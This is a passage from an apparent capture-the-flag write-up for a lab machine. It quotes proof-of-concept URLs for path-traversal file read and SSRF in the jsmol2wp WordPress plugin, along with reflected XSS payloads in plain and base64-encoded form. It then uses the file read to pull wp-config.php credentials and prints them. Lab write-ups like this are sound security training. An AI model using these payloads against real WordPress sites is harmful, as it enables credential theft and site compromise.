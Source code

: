 ```

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=getRawDataFromDatabase
&query=php://filter/resource=../../../../wp-config.php

As you can see, this is also a simple SSRF.

Reflected XSS (CVE-2018-20462)
/wp-content/plugins/jsmol2wp/php/jsmol.php 157th line

Interestingly, the payload here can be encoded in BASE64, so it can bypass browser filtering.

POC:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=saveFile
&data=<script>alert(/xss/)</script>
&mimetype=text/html; charset=utf-8

Using Base64:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=saveFile
&data=PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=
&mimetype=text/html; charset=utf-8
&encoding=base64

The report describes two vulnerabilities in a WordPress plugin called "jsmol2wp". The first vulnerability is an arbitrary file read and server-side request forgery (SSRF) vulnerability (CVE-2018-20463) which can be exploited by controlling the $query parameter of file_get_contents in the jsmol.php file. The second vulnerability is a reflected cross-site scripting (XSS) vulnerability (CVE-2018-20462) which can be exploited by encoding the payload in BASE64. The report provides proof-of-concept (POC) examples for each vulnerability.
```

This talks about an arbitrary file read, let's follow the PoC and visit

`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`

![](gitbook/cybersecurity/images/Pasted%20image%2020250127160431.png)

It indeed works, we got some credentials: `wpuser`:`kbLSF2Vop#lw3rjDZ629*Z%G`, we can test those credentials at: `http://www.smol.thm/wp-login.php`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250127160614.png)

## EXPLOITATION
